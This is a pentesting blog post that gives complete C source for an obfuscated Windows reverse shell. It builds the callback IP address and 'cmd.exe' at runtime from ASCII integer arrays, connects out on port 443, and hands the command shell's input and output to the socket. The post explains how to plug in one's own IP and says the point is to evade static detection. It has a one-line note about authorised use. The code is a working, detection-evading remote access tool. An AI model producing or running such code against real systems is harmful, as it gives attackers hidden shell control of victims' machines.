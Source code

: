 ```yaml
---
layout: post
category: pentesting
---
```


# Creating an Obfuscated Reverse Shell in C with Dynamic String Building

In this post, we'll explore how to create an obfuscated reverse shell in C for Windows. To evade detection, we'll use dynamic string construction techniques instead of traditional static strings, which are easily detected. This approach helps keep critical components hidden from static analysis, making it a useful technique for Capture The Flag (CTF) challenges and pentesting environments.

**Note**: This technique should only be used in authorized, controlled environments.

## Code Walkthrough

Below is the complete code for an obfuscated reverse shell in C. We’ve eliminated common patterns by dynamically constructing strings in runtime, avoiding typical detection mechanisms. Additionally, we'll show how to encode your own IP address and command.

### How to Encode Your IP Address and Command

To set your own IP address and command, we’ll convert each character of the IP address and command string into its ASCII integer value. These values will then be stored in an array, allowing us to dynamically reconstruct the IP and command at runtime.

**Example:** If your IP address is `192.168.0.101` and your command is `cmd.exe`, here’s how you can encode them:

1. **Convert IP Address**: Each character of the IP should be converted to its ASCII decimal representation. For `192.168.0.101`, you would get:
    - IP Address as ASCII values: `[49, 57, 50, 46, 49, 54, 56, 46, 48, 46, 49, 48, 49]`

2. **Convert Command**: Similarly, convert each character of the command `cmd.exe`:
    - Command as ASCII values: `[99, 109, 100, 46, 101, 120, 101]`

Once you have these arrays, you can replace the `ip_pattern` and `cmd_pattern` in the code below.

## Complete Code with Customizable IP and Command

```c
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <stdio.h>
#include <WinSock2.h>
#include <Windows.h>
#include <WS2tcpip.h>
#pragma comment(lib, "Ws2_32.lib")

// Function to dynamically build critical strings
void build_string(char* str, const int* pattern, size_t len) {
    for (size_t i = 0; i < len; i++) {
        str[i] = (char)pattern[i];
    }
    str[len] = '\0';  // Add null terminator
}

int main() {
    SOCKET shell;
    struct sockaddr_in shell_addr;
    WSADATA wsa;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    char RecvServer[512];
    int connection;

    // Dynamically building the IP address and command
    char ip_addr[16];
    char cmd[8];

    // Replace these patterns with your own IP and command patterns
    // Example for IP "192.168.37.134" and command "cmd.exe"
    int ip_pattern[] = { 49, 57, 50, 46, 49, 54, 56, 46, 51, 55, 46, 49, 51, 52 };
    int cmd_pattern[] = { 99, 109, 100, 46, 101, 120, 101 };

    // Build the IP and command strings at runtime
    build_string(ip_addr, ip_pattern, sizeof(ip_pattern) / sizeof(int));
    build_string(cmd, cmd_pattern, sizeof(cmd_pattern) / sizeof(int));

    int port = 443;

    // Initialize Winsock
    if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0) {
        return 1;
    }

    shell = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    // Configure server address structure
    shell_addr.sin_port = htons(port);
    shell_addr.sin_family = AF_INET;
    shell_addr.sin_addr.s_addr = inet_addr(ip_addr);

    // Attempt connection
    connection = WSAConnect(shell, (SOCKADDR*)&shell_addr, sizeof(shell_addr), NULL, NULL, NULL, NULL);
    if (connection == SOCKET_ERROR) {
        return 1;
    } else {
        recv(shell, RecvServer, sizeof(RecvServer), 0);

        // Set up environment for command execution
        memset(&si, 0, sizeof(si));
        si.cb = sizeof(si);
        si.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
        si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)shell;

        // Execute dynamically built command
        if (!CreateProcessA(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi)) {
            return 1;
        }

        // Wait indefinitely, keeping the session open
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        memset(RecvServer, 0, sizeof(RecvServer));
    }
}
```

## Explanation of Key Techniques

1. **Dynamic String Building**: By constructing the IP and command at runtime from ASCII integer values, we avoid static strings in the code, which makes it harder for static analysis tools to detect.
   
2. **Using Patterns for Custom IP and Command**: You can easily replace `ip_pattern` and `cmd_pattern` with your own ASCII values for different IPs and commands.

3. **Indefinite Session Hold**: The `WaitForSingleObject` function waits for the shell session to remain open indefinitely, allowing full control over the session.
